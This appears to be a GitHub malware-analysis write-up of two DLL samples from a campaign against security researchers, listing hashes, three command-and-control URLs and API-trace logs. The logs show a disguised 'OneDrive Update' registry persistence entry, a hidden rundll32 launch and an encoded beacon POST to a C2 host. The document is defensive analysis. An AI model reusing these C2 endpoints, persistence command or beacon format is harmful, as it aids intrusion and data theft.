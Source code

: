 SHA256 : 4c3499f3cc4a4fdc7e67417e055891c78540282dccc57e37a01167dfe351b244  
SHA256 : A75886B016D84C3EAACAF01A3C61E04953A7A3ADF38ACF77A4A2E3A8F544F855  
sample source : https://bazaar.abuse.ch/sample/4c3499f3cc4a4fdc7e67417e055891c78540282dccc57e37a01167dfe351b244/  
sample source : https://bazaar.abuse.ch/sample/a75886b016d84c3eaacaf01a3c61e04953a7a3adf38acf77a4a2e3a8f544f855/  
VT : https://www.virustotal.com/gui/file/4c3499f3cc4a4fdc7e67417e055891c78540282dccc57e37a01167dfe351b244  
VT : https://www.virustotal.com/gui/file/a75886b016d84c3eaacaf01a3c61e04953a7a3adf38acf77a4a2e3a8f544f855   

Report: https://blog.google/threat-analysis-group/new-campaign-targeting-security-researchers/  

C2 :  
https://www.dronerc.it/shop_testbr/upload/upload.php  
https://transplugin.io/upload/upload.asp  
https://codevexillium.org/image/download/download.asp  

---

Initial DLL (4c3499f3cc4a4fdc7e67417e055891c78540282dccc57e37a01167dfe351b244) is dropping and 'installing' and starting the 2nd DLL (A75886B016D84C3EAACAF01A3C61E04953A7A3ADF38ACF77A4A2E3A8F544F855) through a basic persistency mechanism :  

```html
[ * ] [pid 0xaa0][tid 0xabc] c:\windows\system32\rundll32.exe
[API] <RegSetValueExA> in [ADVAPI32.dll] 
[PAR] HKEY    hKey        : 0xf0 
[PAR] LPCTSTR lpValueName : 0x0000003DFD70EDB0
[STR]         -> "OneDrive Update"
[PAR] DWORD   dwType      : 0x1 (REG_SZ)
[PAR] BYTE    *lpData     : 0x0000003DFD70EEE0
            -> 0x0000003DFD70EEE0
[STR] -> "C:\\Windows\\System32\\rundll32.exe C:\\ProgramData\\VMware\\vmnat-update.bin,OCSP_resp_find lxUi5CZ0IV45j89Y 4901"
[RET] 0x7ff9b1563879 in [cms_data_final.dll]

[ * ] [pid 0xaa0][tid 0xabc] c:\windows\system32\rundll32.exe
[API] <CreateProcessA> in [KERNEL32.DLL] 
[PAR] LPCTSTR               lpApplicationName    : 0x0 (null)
[PAR] LPCTSTR               lpCommandLine        : 0x0000003DFD70EEE0
[STR]                       -> "C:\\Windows\\System32\\rundll32.exe C:\\ProgramData\\VMware\\vmnat-update.bin,OCSP_resp_find lxUi5CZ0IV45j89Y 4901"
[PAR] LPSECURITY_ATTRIBUTES lpProcessAttributes  : 0x0
[PAR] LPSECURITY_ATTRIBUTES lpThreadAttributes   : 0x0
[PAR] BOOL                  bInheritHandles      : 0x0
[PAR] DWORD                 dwCreationFlags      : 0x8000000 (CREATE_NO_WINDOW)
[PAR] LPVOID                lpEnvironment        : 0x0
[PAR] LPCSTR                lpCurrentDirectory   : 0x0 (null)
[PAR] LPSTARTUPINFOA        lpStartupInfo        : 0x0000003DFD70CD30
[FLD]                       -> lpDesktop   = 0x0 (null)
[FLD]                       -> lpTitle     = 0x0 (null)
[FLD]                       -> dwFlags     = 0x0 
[FLD]                       -> wShowWindow = 0x0
[FLD]                       -> hStdInput   = 0x0
[FLD]                       -> hStdOutput  = 0x0
[FLD]                       -> hStdError   = 0x0
[PAR] LPPROCESS_INFORMATION lpProcessInformation : 0x0000003DFD70CD10
[RET] 0x7ff9b156397d in [cms_data_final.dll]
```
--- 
There is then nothing much to observe through dynamic analysis :  

```html
[ * ] [pid 0xb68][tid 0xb9c] c:\windows\system32\rundll32.exe
[API] <InternetConnectW> in [WININET.dll] 
[PAR] HINTERNET     hInternet      : 0xcc0010
[PAR] LPCWSTR       lpszServerName : 0x000000457D49CF40 ("transplugin.io")
[PAR] INTERNET_PORT nServerPort    : 443
[PAR] LPCWSTR       lpszUsername   : 0x0 (null)
[PAR] LPCWSTR       lpszPassword   : 0x0 (null)
[PAR] DWORD         dwService      : 0x3 (INTERNET_SERVICE_HTTP)
[PAR] DWORD         dwFlags        : 0x0 
[RET] 0x1800029f1

[ * ] [pid 0xb68][tid 0xb9c] c:\windows\system32\rundll32.exe
[API] <HttpOpenRequestW> in [WININET.dll] 
[PAR] HINTERNET hConnect           : 0xcc0014
[PAR] LPCWSTR   lpszVerb           : 0x00000001800580D0 ("POST")
[PAR] LPCWSTR   lpszObjectName     : 0x000000457D49D920
[STR]           -> "/upload/upload.asp"
[PAR] LPCWSTR   lpszVersion        : 0x00000001800580B8
[STR]           -> "HTTP/1.0"
[PAR] LPCWSTR   lpszReferer        : 0x0 (null)
[PAR] LPCWSTR   *lplpszAcceptTypes : 0x0
[PAR] DWORD     dwFlags            : 0x803000 (INTERNET_FLAG_SECURE | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID | INTERNET_FLAG_IGNORE_CERT_CN_INVALID)
[RET] 0x180002a44

[ * ] [pid 0xb68][tid 0xb9c] c:\windows\system32\rundll32.exe
[API] <HttpSendRequestW> in [WININET.dll] 
[PAR] HINTERNET hRequest         : 0xcc0018
[PAR] LPCWSTR   lpszHeaders      : 0x0 (null)
[PAR] DWORD     dwHeadersLength  : 0x0
[PAR] LPVOID    lpOptional       : 0x000000457F1868C0
[STR]           -> "XW=EZYNQE&XOHTN=NDkwMThYOU8zSWRuQjJONw==&EWKK=&HIXXEE=0&HPYYJD=52&JTMDLK=MgAwADIANQAtADAAMwAtADAANAAgADIAMQA6ADMANwA6ADM"
[STR]              "AOQA=&LSZRYMNDS=IPTDYCTZLUHNEJATJ&NONPECZ=FLOTMDRIMZIUQZZG"
[PAR] DWORD     dwOptionalLength : 0xb2
[RET] 0x18000314f
```
--- 

Going through some statical analysis it is possible to identify which library was linked with the malware to provide the cryptographic layer :  

![Alt text](screen/crypto.jpg?raw=true "statically linked lib")

The associated lib was very likely obtained from here :  

https://www.mail-archive.com/openssl-dev@openssl.org/msg28042.html  

![Alt text](screen/source.jpg?raw=true "statically linked lib")

Going further with dynamic analysis would require implemeting a C2 supporting this ECIES encrypted communication protocol


